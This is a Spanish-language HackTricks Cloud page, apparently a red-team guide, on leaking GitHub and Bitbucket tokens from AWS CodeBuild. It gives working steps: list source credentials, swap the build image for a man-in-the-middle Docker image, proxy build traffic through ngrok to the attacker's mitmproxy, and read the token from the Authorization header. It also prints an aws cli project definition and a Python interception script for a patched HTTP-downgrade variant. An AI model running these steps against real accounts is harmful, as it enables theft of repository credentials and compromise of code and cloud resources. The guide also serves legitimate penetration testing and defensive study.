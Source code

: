 # AWS Codebuild - Fuga de Tokens

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si descubres que la autenticación para, por ejemplo, Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de Docker específica** para ejecutar la construcción del proyecto.

Para este propósito podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para configurar la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que configurará las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayoría del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen Docker MitM**
* Sigue las instrucciones del repositorio para configurar tu dirección IP del proxy y establecer tu certificado SSL y **construir la imagen de Docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al punto final de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para configurar el proxy a tu host.
* Una vez que tengas la imagen de Docker construida, **súbela a un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**

<figure><img src="../../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

3. **Configura el proxy MitM en tu host**

* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue la 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecuta la construcción y captura las credenciales**

*   Puedes ver el token en el encabezado **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Esto también podría hacerse desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Mediante el protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Por lo tanto, un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos se configuraron a través de OAuth, el **token temporal de OAuth utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto CodeBuild apuntando a su máquina (por ejemplo, `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Luego, cambiar la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Después, ejecutar el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Build the project**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usarlos más fácilmente que utilizando el servicio de CodeBuild directamente.
{% endhint %}

<details>

<summary><strong>Aprende AWS hacking de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** revisa los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

